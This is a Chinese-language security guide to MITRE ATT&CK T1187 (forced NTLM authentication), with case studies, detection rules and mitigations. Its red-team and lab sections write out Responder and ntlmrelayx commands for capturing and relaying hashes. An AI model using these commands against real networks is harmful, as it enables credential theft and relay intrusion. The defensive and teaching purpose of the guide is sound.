

# 强制认证 (T1187)

## 一句话通俗理解

**逼你的电脑自动把密码发给攻击者——诱导你的系统向攻击者的服务器发起认证请求，你还没反应过来密码就丢了。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 逼你的电脑自动把密码发给攻击者 |
| 为什么危险？ | 强制认证不需要用户交互，电脑会自动把密码哈希发送给攻击者 |
| 谁需要关心？ | 网络管理员、SOC分析师 |
| 你的第一步防御 | 禁用LLMNR和NetBIOS，部署SMB签名 |
| 如果只做一件事 | 禁用LLMNR和NetBIOS协议，部署SMB签名 |

## 难度等级

- ⭐⭐ 中级（需要一定基础）

## 技术描述

强制认证（T1187）是MITRE ATT&CK框架中凭证访问战术的一种技术。

**通俗解释：**
Windows系统有一种"习惯"——当你打开一个网络文件（如`\\server\share`）时，它会自动向那个服务器发送你的登录凭证（NTLM哈希）。攻击者利用这个机制，诱导你的系统向攻击者控制的服务器发起连接。就像你走进一栋楼，保安让你出示门禁卡——但问题是，你出示门禁卡的对象不是真正的保安，而是冒充保安的小偷。

**技术原理：**
1. 攻击者搭建一个恶意的SMB服务器或Web服务器
2. 通过多种方式诱导受害者系统向攻击者服务器发起连接：
   - 在HTML邮件中嵌入``（Outlook预览时触发）
   - 发送包含恶意LNK文件的钓鱼邮件（打开时触发）
   - 在Office文档中嵌入指向攻击者SMB共享的远程模板或图片
   - 利用LLMNR/NBT-NS名称解析投毒，让受害者的请求发往攻击者
3. 受害者系统自动向攻击者服务器发送NTLM认证请求（Net-NTLMv2哈希）
4. 攻击者捕获哈希后进行离线破解或NTLM中继攻击

**用途与影响：**
强制认证的优势在于攻击者不需要提前在目标系统上安装任何恶意软件。只需一封精心构造的邮件或文档，就能触发Windows自动发送凭证。捕获的Net-NTLMv2哈希可用于离线破解（使用Hashcat）或直接用于SMB中继攻击，从而获得对域控等关键系统的访问。

## 子技术列表

该技术没有官方子技术分类。

## 攻击流程

```
搭建恶意服务器 --> 诱导用户触发 --> 捕获NTLM哈希 --> 离线破解/中继攻击
```



**步骤详解：**

1. **搭建恶意服务器**
   - 通俗描述：准备一个"陷阱"，引导受害者系统自动发密码过来
   - 技术细节：配置SMB服务器（使用Responder或Impacket的smbserver.py），监听TCP 445端口
   - 常用工具：Responder、Impacket smbserver.py

2. **诱导用户触发连接**
   - 通俗描述：让目标打开一个文件或邮件，触发Windows自动认证
   - 技术细节：发送包含恶意LNK文件或Office文档的钓鱼邮件，文档中嵌入式引用攻击者的SMB共享
   - 常用工具：PowerShell生成LNK文件、Office宏

3. **捕获哈希并利用**
   - 通俗描述：拿到密码的"加密版"，回家慢慢破解或直接用来登录
   - 技术细节：Responder捕获Net-NTLMv2哈希后，使用Hashcat破解或使用Impacket ntlmrelayx进行中继
   - 常用工具：Hashcat、Impacket ntlmrelayx

## 真实案例

### 案例1：UNC1878 -- SMB强制认证用于初始访问（2020-2024）

- **时间**: 2020-2024年
- **目标**: 美国州政府、教育机构
- **攻击组织**: UNC1878（与Ryuk勒索软件相关）
- **手法**: UNC1878使用包含恶意附件（.docx或.xlsx）的鱼叉式钓鱼邮件。Office文档中包含远程模板或图像引用（使用file://协议连接攻击者控制的SMB服务器）。当受害者文档试图加载远程资源时，Windows自动发送NTLM认证请求。捕获的Net-NTLMv2哈希被破解后用于网络横向移动，最终部署Ryuk勒索软件。
- **影响**: 多个政府机构和教育机构被勒索
- **参考链接**: [MITRE ATT&CK - UNC1878](https://attack.mitre.org/groups/G1024/)

### 案例2：FIN7 -- 强制认证通过恶意LNK文件（2017-2020）

- **时间**: 2017-2020年
- **目标**: 全球金融机构、酒店
- **攻击组织**: FIN7（Carbanak）
- **手法**: FIN7在钓鱼邮件中发送包含恶意LNK文件的ZIP附件。受害者打开LNK文件时，Windows自动尝试访问攻击者控制的SMB服务器以加载图标。此操作触发受害者的Windows系统向攻击者服务器发送NTLMv2认证请求。FIN7使用Responder捕获Net-NTLMv2哈希，随后使用Hashcat进行离线破解。
- **影响**: 全球金融机构数亿美元损失
- **参考链接**: [MITRE ATT&CK - FIN7](https://attack.mitre.org/groups/G0046/)

### 案例3：Emotet -- LNK文件强制认证（2019-2024）

- **时间**: 2019-2024年
- **目标**: 全球企业
- **攻击组织**: Emotet运营者
- **手法**: Emotet钓鱼邮件中含有压缩的恶意LNK文件或包含DDE字段的Office文档。当受害者打开附件时，系统自动尝试访问嵌入的UNC路径。Emotet在其运营的基础设施中运行SMB捕获服务器，收集所有强制认证产生的Net-NTLMv2哈希，用于识别高价值账户并分发更具针对性的后续钓鱼攻击。
- **影响**: 全球数十万企业被感染
- **参考链接**: [MITRE ATT&CK - Emotet](https://attack.mitre.org/software/S0367/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **使用Responder自动捕获**
   Responder会自动响应LLMNR/NBT-NS查询并捕获所有NTLM哈希：`responder -I eth0 -w -r -v`

2. **SMB中继攻击**
   如果无法破解哈希，可以使用ntlmrelayx将捕获的认证中继到目标服务器：`impacket-ntlmrelayx -t smb://dc-ip -smb2support`

3. **Office远程模板**
   Office文档中的远程模板加载是最可靠的触发方式之一

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| Responder | LLMNR/NBT-NS投毒+SMB捕获 | 跨平台 | [GitHub](https://github.com/SpiderLabs/Responder) |
| Impacket smbserver.py | SMB服务器，捕获NTLM哈希 | 跨平台 | [GitHub](https://github.com/fortra/impacket) |
| Impacket ntlmrelayx | NTLM中继攻击工具 | 跨平台 | [GitHub](https://github.com/fortra/impacket) |
| Hashcat | GPU加速的哈希破解工具 | 跨平台 | [官方](https://hashcat.net/hashcat/) |

### 注意事项

- 强制认证需要受害者系统能被诱导发起出站SMB连接
- 现代Windows版本默认阻止出站SMB到外部IP
- 捕获的Net-NTLMv2哈希比NTLM哈希更耗时破解

## 蓝队视角

### 检测要点

1. **出站SMB连接**
   - 日志来源：防火墙日志、网络流量
   - 关注字段：TCP 445端口的出站连接
   - 异常特征：非文件服务器的主机发起出站SMB连接

2. **Office应用访问网络资源**
   - 日志来源：Sysmon Event ID 1（进程创建）
   - 关注字段：WINWORD.EXE、EXCEL.EXE连接外部SMB共享
   - 异常特征：Office应用发起网络文件访问

### 监控建议

- 在边界防火墙阻止出站SMB（TCP 445、139）
- 监控LNK文件创建事件和指向外部UNC路径
- 阻止Office应用程序加载远程资源

## 检测建议

### 网络层检测

**检测方法：** 监控出站SMB连接

**具体规则/命令示例：**
```
# Zeek检测规则
检测从非文件服务器到外部IP的TCP 445连接
```

### 主机层检测

**检测方法：** 监控Office应用的远程资源加载

**Windows事件ID：**
- 事件ID 4688：检测WINWORD.EXE/EXCEL.EXE启动并连接网络
- Sysmon Event ID 3：网络连接事件

**具体命令示例：**
```powershell
# 监控Office应用的网络连接
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';ID=3} |
    Where-Object { $_.Properties[4].Value -match 'WINWORD|EXCEL' }
```


**用人话说：** 这条规则在监控网络中是否有LLMNR/NBT-NS投毒活动。LLMNR和NBT-NS是Windows的本地名称解析协议，当DNS查询失败时会使用。攻击者用Responder等工具回复这些广播请求，冒充目标服务器，诱骗用户电脑发送密码哈希。禁用这些协议是最有效的防御。

### 应用层检测

**Sigma规则示例：**
```yaml
title: Forced Authentication via Office Remote Template
status: experimental
description: 检测Office应用加载远程SMB资源
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith:
            - '\WINWORD.EXE'
            - '\EXCEL.EXE'
            - '\OUTLOOK.EXE'
        CommandLine|contains:
            - '\\'
            - 'file://'
    condition: selection
level: high
tags:
    - attack.t1187
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 阻止出站SMB流量

**具体实施步骤：**
1. 在边界防火墙阻止TCP 445、139和UDP 137-138出站
2. 配置Windows防火墙阻止非必要进程的出站SMB流量
3. 禁用LLMNR和NetBIOS over TCP/IP（通过组策略）

### 优先级2：重要措施

**措施名称：** 禁用NTLM认证

**具体实施步骤：**
1. 配置组策略：Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers
2. 设置为"拒绝所有"或"审核所有"
3. 在域环境中优先使用Kerberos认证

### 优先级3：建议措施

**措施名称：** 阻止Office加载远程内容

**具体实施步骤：**
1. 文件 > 选项 > 信任中心 > 外部内容设置
2. 阻止所有远程内容的自动加载
3. 配置组策略禁用Office中的DDE

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1037 | 网络隔离 | 适用 | 阻止出站SMB流量 |
| M1041 | 凭证保护 | 部分适用 | 禁用NTLM认证 |
| M1021 | 限制网络通信 | 适用 | 阻止Office远程内容 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**所需工具：**
- Kali Linux（攻击机）
- Windows虚拟机（受害者）
- Responder工具

### 实验1：使用Responder捕获NTLM哈希（初级）

**实验目标：** 模拟强制认证攻击

**实验步骤：**
1. 在Kali上启动Responder：`responder -I eth0 -w -r -v`
2. 在Windows VM中打开文件资源管理器，输入`\\192.168.1.100\share`
3. 观察Responder捕获到的NTLMv2哈希

**预期结果：** Responder显示捕获的Net-NTLMv2哈希

**学习要点：** 理解Windows自动认证机制

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| NTLM哈希 | NTLM Hash | Windows密码的加密版本，可以用来上网认证 |
| Net-NTLMv2 | Net-NTLMv2 Hash | 在网络上传输的"加密版密码"，可以破解或直接用于攻击 |
| SMB | Server Message Block | Windows的文件共享协议，也用于认证 |
| UNC路径 | Universal Naming Convention | Windows中表示网络路径的格式，如\\server\share |
| LLMNR | Link-Local Multicast Name Resolution | Windows主机名解析方式，容易受到欺骗攻击 |
| 中继攻击 | Relay Attack | 把捕获的认证请求"转发"到目标服务器，不用破解密码 |

## 参考资料

### 官方文档

- [MITRE ATT&CK - T1187](https://attack.mitre.org/techniques/T1187/)
- [Microsoft - NTLM认证限制指南](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm)

### 工具与资源

- [Responder - NBT-NS/LLMNR响应工具](https://github.com/SpiderLabs/Responder)

### 学习资料

- [SANS - Forced Authentication Attacks](https://www.sans.org/white-papers/forced-authentication-attacks/) - 强制认证攻击白皮书
